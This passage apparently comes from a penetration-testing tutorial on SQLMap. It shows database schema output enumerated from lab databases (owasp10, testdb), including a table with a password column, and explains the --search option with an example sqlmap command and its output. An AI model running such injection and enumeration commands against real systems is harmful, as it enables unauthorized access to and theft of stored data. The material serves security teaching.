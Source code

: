 ```shell

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+

```

* * *

## Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
```